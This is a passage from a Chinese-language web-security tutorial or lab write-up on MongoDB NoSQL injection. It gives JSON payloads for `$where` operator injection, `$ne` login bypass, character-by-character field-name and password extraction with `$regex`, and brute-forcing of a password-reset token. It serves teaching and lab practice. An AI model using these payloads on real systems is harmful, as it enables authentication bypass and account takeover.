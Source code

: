 要测试是否可以注入运算符，您可以尝试将`$where`运算符添加为附加参数，然后发送一个条件计算结果为 false 的请求，以及另一个计算结果为 true 的请求。例如：

```json
{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
如果存在差异，则存在注入
```

### 2.2.1 提取字段名称

```php
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

这将检查用户对象中的第一个数据字段并返回字段名称的第一个字符。这使您能够逐字符提取字段名称

## 2.3 lab

首先说一下大概的思路，也就是利用前面的{$ne:''}构造一个万能密码，会发现登录不了也就是（Account locked）需要reset password，这个时候我们直接利用语句`"$where":"Object.keys(this)[1].match('^.{}.*')"`来获取json的名称，类似于

```json
{
"username":"xxxxx"
"password":"xxxxxx"
"forgetPWD":"xxxxx"
}
```

中的username,password，我们给对方的邮箱发送重置密码，然后利用上面的语句查出来我们需要的东西是在第几个key之中（其实就是判断他是否存在这个东西）例如这里的forgetpwd就是key我们需要里面的值就可以再使用语句："$where":"this.forgetPWD.match('^.{1}1.\*')"在数字一填入参数来进行爆破最终获取数据，因为我这里的lab响应太慢了我这里直接放一个视频链接可以去看看具体操作 : [https://www.youtube.com/watch?v=fyOzoqd2hl4](https://www.youtube.com/watch?v=fyOzoqd2hl4 "https://www.youtube.com/watch?v=fyOzoqd2hl4")

## 2.4 javascript 运算符提取数据

或者，您也可以使用无法运行 JavaScript 的运算符来提取数据。例如，您可以使用?`$regex`运算符逐字符提取数据。

考虑一个易受攻击的应用程序，它接受请求正文中的用户名和密码`POST`。例如：

```json
{"username":"myuser","password":"mypass"}
```

您可以首先测试运算符是否`$regex`被处理，如下所示：

```json
{"username":"admin","password":{"$regex":"^.*"}}
```

如果对此请求的响应与您提交错误密码时收到的响应不同，则表明该应用程序可能存在漏洞。您可以使用`$regex`运算符逐字符提取数据。例如，以下有效负载检查密码是否以 开头`a`：

```json
{"username":"admin","password":{"$regex":"^a*"}}
```

当然原理是一样的，以上的注入都是基于mangodb的语法，接下来是一种（权新版本）

# 3 InfluxDB
